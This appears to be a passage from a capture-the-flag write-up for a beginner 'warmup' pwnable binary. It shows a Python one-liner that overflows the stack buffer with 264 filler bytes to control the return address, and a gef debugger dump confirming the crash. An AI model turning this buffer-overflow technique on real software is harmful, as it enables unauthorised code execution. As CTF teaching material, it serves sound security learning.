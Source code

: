 The return address will be overwritten at offset 264...

```
andrew@fujitsu /tmp % python -c 'print "A"*264 + "BBBBBBBB";' > input    
```

```
gef➤  r < input 
Starting program: /tmp/warmup < input
Hello CTF Players!
This is a warmup challenge for pwnable.
We provide some hints for beginners spawning a shell to get the flag.

1. This binary has no SSP (Stack Smash Protection). So you can get control of instruction pointer with stack overflow.
2. NX-bit is disabled. You can run your shellcode easily.
3. PIE (Position Independent Executable) is also disabled. Some memory addresses are fixed by default.

If you get stuck, we recommend you to search about ROP and x64-shellcode.
Please pwn me :)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x00007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x00007fffffffdeb8  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffb710  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x1               
$rip   : 0x0000000000400709  →  <main+79> ret 
$r8    : 0x110             
$r9    : 0x00007ffff7fdb4c0  →  0x00007ffff7fdb4c0  →  [loop detected]
$r10   : 0x3               
$r11   : 0x246             
$r12   : 0x0000000000400590  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf90  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdeb8│+0x0000: "BBBBBBBB"	 ← $rsp
0x00007fffffffdec0│+0x0008: 0x0000000000000000
0x00007fffffffdec8│+0x0010: 0x00007fffffffdf98  →  0x00007fffffffe317  →  "/tmp/warmup"
0x00007fffffffded0│+0x0018: 0x0000000100008000
0x00007fffffffded8│+0x0020: 0x00000000004006ba  →  <main+0> push rbp
0x00007fffffffdee0│+0x0028: 0x0000000000000000
0x00007fffffffdee8│+0x0030: 0xfb9b0c21f2f5366f
0x00007fffffffdef0│+0x0038: 0x0000000000400590  →  <_start+0> xor ebp, ebp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006fe <main+68>        call   0x400570 <printf@plt>
     0x400703 <main+73>        mov    eax, 0x0
     0x400708 <main+78>        leave  
 →   0x400709 <main+79>        ret    
[!] Cannot disassemble from $PC
```